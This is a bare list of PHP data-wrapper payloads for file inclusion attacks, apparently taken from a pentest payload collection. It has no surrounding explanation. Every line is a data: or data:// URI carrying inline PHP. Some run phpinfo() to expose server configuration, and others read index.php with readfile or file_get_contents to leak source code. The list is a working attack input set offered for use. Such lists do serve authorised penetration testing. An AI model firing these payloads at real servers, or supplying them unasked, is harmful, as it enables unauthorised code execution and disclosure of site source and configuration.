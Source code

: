 ##PHP_Data_Payloads

data:text/plain,<?php phpinfo(); ?>

data://text/plain,<?php phpinfo(); ?>

data:application/x-php,<?php phpinfo(); ?>

data://application/x-php,<?php phpinfo(); ?>

data:application/x-httpd-php,<?php phpinfo(); ?>

data://application/x-httpd-php,<?php phpinfo(); ?>

data:application/x-php,<?php echo readfile('index.php'); ?>

data://application/x-php,<?php echo readfile('index.php'); ?>

data:text/plain,<?php echo readfile('index.php'); ?>

data://text/plain,<?php echo readfile('index.php'); ?>

data:text/plain,<?php echo file_get_contents('index.php'); ?>

data://text/plain,<?php echo file_get_contents('index.php'); ?>

data://application/x-httpd-php,<?php echo readfile('index.php'); ?>
